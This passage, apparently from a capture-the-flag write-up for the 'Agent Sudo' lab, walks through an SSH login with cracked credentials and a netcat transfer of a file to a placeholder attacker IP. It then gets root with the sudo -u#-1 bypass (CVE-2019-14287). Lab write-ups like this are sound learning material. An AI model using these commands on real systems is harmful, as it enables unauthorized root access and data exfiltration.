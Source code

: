 And we are done! This looks very much like a SSH password, let’s try logging in!

### 2. Foothold

For fun, I tried logging in with the agent C’s credentials in SSH, but to no avail. Back to agent J then!

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh {agent J}@10.10.170.197
{agent J}@10.10.170.197's password:

...

Last login: Tue Oct 29 14:26:27 2019
{agent J}@agent-sudo:~$ ls -la
total 80
drwxr-xr-x 4 {agent J} {agent J}  4096 Oct 29  2019 .
drwxr-xr-x 3 root  root   4096 Oct 29  2019 ..
-rw-r--r-- 1 {agent J} {agent J} 42189 Jun 19  2019 Alien_autospy.jpg
-rw-r--r-- 1 {agent J} {agent J}    33 Oct 29  2019 user_flag.txt
```

Great! We have our user flag.

So they want us to solve another image related challenge … but before you pack your bags, its actually fun XD

Use netcat on your machine to listen to port 1337 and run the command `nc YOUR_IP 1337 < Alien_autospy.jpg` to send the file. Do not forget to put the output in a file like, `nc -lnvp 1337 > brr`. Now, as the hint suggests, do a Google reverse image search and look for the article by foxnews XD

### 3. Privilege Escalation

Okay. Time to get serious again.

```
{agent J}@agent-sudo:~$ sudo -l
Matching Defaults entries for {agent J} on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User {agent J} may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

So I googled the last line, and we get something interesting which we have seen before in other writeups as well. It is a security by pass exploit described here [https://www.exploit-db.com/exploits/47502.](https://www.exploit-db.com/exploits/47502.)

```
{agent J}@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Looks like we have some hope!

```
{agent J}@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~#
```

Ey, voila!

Overall a very fun room, lots of hash cracking and brute forcing — so that you can take a quick break while these tools go brrr 😛

